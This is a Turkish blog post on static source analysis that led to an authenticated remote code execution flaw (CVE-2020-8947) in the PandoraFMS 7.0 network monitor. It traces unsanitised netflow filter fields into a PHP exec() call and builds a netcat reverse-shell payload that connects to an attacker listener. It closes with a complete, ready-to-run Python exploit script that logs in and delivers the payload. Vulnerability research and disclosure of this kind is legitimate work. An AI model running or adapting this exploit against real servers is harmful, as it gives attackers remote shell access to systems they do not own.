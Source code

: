 ```yaml
---
layout: post
title: PandoraFMS 7.0 Authenticated Remote Code Execution x 4
date: '2020-03-05 10:20:42 +0300'
categories: blog
---
```



Merhaba, [PANDORAFMS](http://pandorafms.org/) adında açık kaynaklı bir ağ izleme aracında bulduğum Authenticated RCE zafiyetinin detaylı bulumunu anlatıyor olacağım. Statik kaynak kod analizine dair türkçe pek bir kaynak bulunmuyor oluşunu göz önünde bulundurarak makaleyi türkçe kaleme aldım.

**AUTHENTICAD RCE**

Authenticated, zafiyetinin tetiklemesi için geçerli bir kullanıcı gerekli olduğunu belirtir. RCE ise uygulama üzerinden uygulamanın çalıştığı sunucuda sistem kodları çalıştırabilmemize olanak sağlayan zafiyet türüdür.

**PANDORAFMS**

1.  Uygulama indirme linki: [PandoraFMS Downloads](https://pandorafms.org/features/free-download-monitoring-software/)
2.  Zafiyeti tespit ettiğim sürüm: 7.0

**BÖLÜM 1: Uygulama Eldesi**

Profesyonel bir kaynak kod analizicisi değilim bu sebeple zafiyet bulmanın kendime göre en basit olacağı uygulama türleri sınıflandırdım. Bunların başında ise ağ izleme yazılımları geliyor. Ufak bir [arama sonucu](https://www.dnsstuff.com/open-source-network-monitoring-tools) açık kaynaklı popüler ağ izleme araçları listesine eriştim ve burada [PANDORAFMS](https://pandorafms.org/) yazılımına rastladım, hem açık kaynaklıydı hemde indirme linklerinde doğrudan sanallaştırma yazılımlarıyla kullanılabilecek bir OVA dosyası bulunuyordu. Doğrudan bir OVA dosyası bulunması, uygulamanın kaynak kodlarına erişimde işleri oldukça kolaylaştırıyor. OVA dosyasını indirdim ve [VMWARE Fusion](https://www.vmware.com/products/fusion.html) ile sanal makine olarak kaldırdım.

**Bölüm 2: Kaynak Kod Eldesi**

Sanal makineye giriş yapmak için dağımtıcının kendi sağladığı [kılavuz](https://pandorafms.com/downloads/guias_rapidas_EN.pdf) üzerinden root:pandora giriş bilgisini aldım ve sisteme giriş yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms.png)

Sistem üzerinde biraz gezindikten sonra, uygulamaya dair kodların varsayılan webservisi dizini olan /var/www/html dizininde tutulduğunu tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-kaynak.png)

Kodları daha uygun bir ortadamda IDE üzerinden incelemek için dizini [TAR](https://wiki.ubuntu-tr.net/index.php?title=Tar_komutu_kullan%C4%B1m%C4%B1) ile sıkıştırdım ve SCP kullanarak ana makineme aktardım.

```
tar -czvf pandora.tar.gz /var/www/html/pandora_console
scp root@pandoraFMSIP:/var/www/html/pandora.tar.gz /tmp/pandora.tar.gz
```

**Bölüm 3: Kaynak Kodun İncelenmesi**

Dosyaları kendi tercih ettiğim [ATOM](https://atom.io/) idesini kullanarak kurcalamaya başladım.

Statik kaynak kod analizlerinde komut çalıştırmaya dair bir zafiyet arıyorsak başlı başlı dikkat etmemiz gereken bazı fonksiyonlar var. Bunların bir kaçına örnek olarak; `system, exec, shell_exec, popen, eval, passthru` fonksiyonları verilebilir.

IDE üzerinde tüm projede bulunan php dosyalarında yukarıda belirttiğim fonksiyonları aramaya başladım ve boşa çabalanan bir kaç saatin sonunda **functions_netflow.php** dosyasının 648\. satırında zafiyete dair çok umut vaadeden bir nokta tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-finding-point.png)

Hem **exec()** fonksiyonu kullanılıyor hemde henüz nereden geldiği belli olmayan ama ben kullanıcıdan geliyorum diye bağıran bir değişkeni içeriyordu. Fazla Kemal Sunal izlemenin etkisinden olacak "Şimdi istanbul hapı yuttu" diye aklımdan geçirerek **$command** değişkeninin nereden geldiğini kurcalamaya başladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-command.png)

**$command** değişkeni **net_flow_getcommand()** fonksiyonundan geliyor, daha sonrada önceden tanımlanmış ekstra bir kaç komutta üstüne ekleniyordu. IDE'nin arama özelliğini kullanarak fonksiyonun aynı dosyada 892.nci satırda tanımlandığını tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon.png)

Fonksiyonu inclediğimde maalesef kullanıcıdan gelen herhangi bir verinin burada **$command** değişkenine maalesef eklenmediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon-ayrinti.png)

Fakat bereket olsun, **$command** değişkenine bir şeyler ekleyen yeni fonksiyon çıktı karşıma 904\. satırda bulunan **netflow_get_filter_arguments** fonksiyonu. IDE üzerinden fonksiyonun tanımlandığı noktayı tespit ettim (aynı dosya 917\. satır) ve fonksiyonu incelemeye koyuldum.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-getfilter-fonksiyon.png)

Fonksiyon bir sürü farklı girdiyi(ipsrc, ipdst, srcport, dstport) herhangi bir kontrolden geçirmeden **$filter_args** adında bir değişkene ekliyor ve en sonunda **$filter_args** değişkenini değer olarak dönüyordu. Daha sonra bu değer, **$command** değişkenine ekleniyor ve ilk tespit edilen satırda bulunan **exec()** fonksiyonuna gönderiliyordu. Yani eğer bu değişkenlerden herhangi birine istediğimiz girdiyi verebilirsek pekala buradan bir RCE elde edebiliriz. Aslında aradığım şey $_GET yada $_POST şekilinde kullanıcıdan alınan bir girdiydi fakat bu değişkenlerin hiç birinin geleneksel GET yada POST ile alındığını tespit edemedim. RCE hem çok yakındı hemde çok uzak. Bu durum canımı oldukça sıkmış olsada fonksiyonun içinde bulunan değerlerin mantıksal olarak kullanıcıdan alınması gerekiyordu. Uzunca bir süre bu değişkenlerin nasıl alındığı tespit etmeye çalıştım fakat bir sonuca varamadım. Biraz kafa toplamak amacıyla mola verdim. Bu noktada aslında yine bir şey bulamadığımı düşünüp bırakacaktım ki, aykırı bir tutum sergileyerek Googleda ufak bir arama yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google.png)

Buradan dökümanları okumanın ne kadar önemli olduğunu tekrar anlıyoruz. Site üzerinde biraz gezindikten sonra, heyecanımı tekrar kazandıran bir ekran görüntüsüne denk geldim

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google-netflow-dokuman.png)

Burada ki gösterilen girdiler fonksiyonun içinde tespit ettiğimiz (ipsrc, ipdst, srcport, dstport) değişkenleriydi, yani RCE zafiyetini tetiklememiz için kontrol etmemiz gereken değişkenler. Hemen dökümanı takip ederek, tarayıcı üzerinden ilgili sayfaya eriştim:

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-page.png)

Girdilerin gönderildiği noktalarının tespitinin ardından, kalan son iş uygun payloadı oluşturmaktı. Fonksiyonları tekrar inceledim, **netflow_get_filter_arguments** fonksiyonun sonunda **$filter_args** değişkenine `"` karakteri eklediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son-dokunuslar.png)

Çift tırnakları kapatmak için payloadımız " karakteriyle başlamalı ve kendi komutumuzu çalıştırmak adına " karakterini bir ; takip etmeli tabi farklı girdilerde kullanılabilir && gibi. Son olarak, payloadımızdan sonra gelecek eklemelerin payloadı bozmaması için en sona # işareti koymamız yeterli olacaktır. Yani payloadımız ";Girilecek Komut# taslağında olacak. Taslağın arasına ufak bir reverseshell komutu iliştirmek için [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) den bir reverseshell komutu aldım. Ve sonuç payloadı: **";nc -e /bin/sh 192.168.1.100 1234 #** olarak oluştu. Ve sayfada bulunan "router ip" harici herhangi bir inputa oluşturduğum payloadı verdiğimde bir shell eldesi sağladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son.png)

Dağıtımcıya ulaşmaya çalıştım fakat bir sonuç alamadım. Bu nedenle makaleyi açık olarak yayınladım.


**Bölüm 4: Exploit**



```

'''
PANDORAFMS 7.0 Authenticated Remote Code Execution x4
This exploits can be edited to exploit 4x Authenticated RCE vulnerabilities exist on PANDORAFMS.
incase default vulnerable variable won't work, change the position of payload to  one of the following ip_src, dst_port, src_port

Author: Engin Demirbilek
Github: github.com/EnginDemirbilek
CVE: CVE-2020-8947

'''
import requests
import sys

if len(sys.argv) < 6:
	print "Usage: ./exploit.py http://url username password listenerIP listenerPort"
	exit()

url = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
payload = '";nc -e /bin/sh ' + sys.argv[4] + ' ' + sys.argv[5] + ' ' + '#'

login = {
	'nick':user,
	'pass':password,
	'login_button':'Login'
}
req = requests.Session()
print "Sendin login request ..."
login = req.post(url+"/pandora_console/index.php?login=1", data=login)

payload = {
	'date':"",
	'time':"",
	'period':"",
	'interval_length':"",
	'chart_type':"",
	'max_aggregates':"1",
        'address_resolution':"0",
        'name':"",
        'assign_group':"0",
        'filter_type':"0",
        'filter_id':"0",
        'filter_selected':"0",
        'ip_dst':payload,
	'ip_src':"",
	'dst_port':"",
	'src_port':"",
	'advanced_filter':"",
	'aggregate':"dstip",
	'router_ip':"",
	'output':"bytes",
	'draw_button':"Draw"
}

print "[+] Sendin exploit ..."

exploit = req.post(url+"/pandora_console/index.php?sec=netf&sec2=operation/netflow/nf_live_view&pure=0",cookies=req.cookies, data=payload, headers={
'User-Agent':'Mozilla/5.0 Gecko/20100101 Firefox/72.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded'})

if exploit.status_code == 200:
	print "[+] Everything seems ok, check your listener."
else:
	print "[-] Exploit failed. You can change position of payload to ip_src, dst_port or src_port and try again."


```


[Engin Demirbilek](https://www.linkedin.com/in/engin-d-742752153/)
